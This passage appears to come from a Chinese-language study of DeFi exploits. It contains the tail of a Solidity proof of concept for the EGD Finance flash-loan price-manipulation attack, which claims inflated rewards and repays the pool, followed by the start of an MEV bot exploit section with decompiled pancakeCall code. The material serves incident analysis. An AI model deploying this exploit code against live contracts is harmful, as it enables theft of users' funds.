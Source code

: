 ```solidity

            console.log("Sweep USDT in pair");
            address[] memory paths = new address[](2);
            paths[0] = EGD_ADDRESS;
            paths[1] = USDT_ADDRESS;
            IERC20(EGD_ADDRESS).approve(address(pancakeRouter),type(uint256).max);
            pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
                IERC20(EGD_ADDRESS).balanceOf(address(this)),1,paths,address(this),block.timestamp *2
            );

            IERC20(USDT_ADDRESS).transfer(msg.sender,2010 ether);
        }else{
            console.log("Receiving callback for FlashLoad[2]");
            emit log_named_decimal_uint("[INFO] EGD/USDT Price after price manipulation", IEGD_Finance(EGD_Finance).getEGDPrice(), 18);
            emit log_named_decimal_uint("[INFO] Current earned reward (EGD token)", IEGD_Finance(EGD_Finance).calculateAll(address(this)), 18);
            console.log("Claim all EGD Token reward from EGD Finance contract");
            IEGD_Finance(EGD_Finance).claimAllReward();
            emit log_named_decimal_uint("[End] Attacker EGD Balance", IERC20(EGD_ADDRESS).balanceOf(address(this)), 18);
            uint256 swapfee = borrowUSDT2 * 3 / 1000; // Attacker pay 0.3% fee to Pancakeswap
            IERC20(USDT_ADDRESS).transfer(address(EGD_USDT_LPPool), borrowUSDT2 + swapfee);
        }
    }
}

/* -------------------- Interface -------------------- */
interface IEGD_Finance { // Interface needed to interact
    function bond(address invitor) external;
    function stake(uint256 amount) external;
    function calculateAll(address addr) external view returns (uint256);
    function claimAllReward() external;
    function getEGDPrice() external view returns (uint256);
}
```

<hr />

# 3. MEV Bot POC

总结一下，就是`MEV BOT`的余额太多，同时没有对`Pair`的身份进行校验。

反编译之后，有

```solidity
function pancakeCall(address varg0, uint256 varg1, uint256 varg2, bytes varg3) public nonPayable { 
    require(msg.data.length - 4 >= 128);
    require(varg0 == varg0);
    require(varg3 <= 0xffffffffffffffff);
    require(4 + varg3 + 31 < msg.data.length);
    require(varg3.length <= 0xffffffffffffffff);
    require(4 + varg3 + varg3.length + 32 <= msg.data.length);
    v0 = new bytes[](varg3.length);
    CALLDATACOPY(v0.data, varg3.data, varg3.length);
    v0[varg3.length] = 0;
    0x10a(v0, varg2, varg1);
}
```
